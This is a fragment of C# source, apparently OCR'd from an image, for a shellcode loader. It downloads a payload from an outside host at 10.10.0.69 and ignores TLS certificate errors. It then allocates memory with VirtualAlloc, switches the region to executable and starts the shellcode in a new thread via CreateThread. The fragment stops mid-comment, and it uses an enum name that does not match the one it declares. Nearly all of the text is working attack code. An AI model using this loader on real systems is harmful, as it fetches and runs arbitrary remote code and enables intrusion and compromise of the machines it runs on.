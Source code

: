 ```cs

        [Flags]
        public enum AllocationTypeLarge
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
        static async Task Main(string[] args)
        {
            byte[] shellcode;

            using (var handler = new HttpClientHandler())
            {
                // ignore ssl, because self-signed
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

                using (var client = new HttpClient(handler))
                {
                    // Download the shellcode
                    shellcode = await client.GetByteArrayAsync("http://10.10.0.69:80/download/file.ext");
                }
            }

            // Allocate a region of memory in this process as RW
            var baseAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, AllocationType.Commit | AllocationType.Reserve, MemoryProtection.ReadWrite);

            // Copy the shellcode into the memory region
            Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

            // Change memory region to RX
            VirtualProtect(baseAddress, (uint)shellcode.Length, MemoryProtection.ExecuteRead, out _);

            // Execute shellcode
            var hThread = CreateThread(IntPtr.Zero, 0, baseAddress, IntPtr.Zero, 0, out _);

            // Wait infinitely on this thread to stop the process exiting
```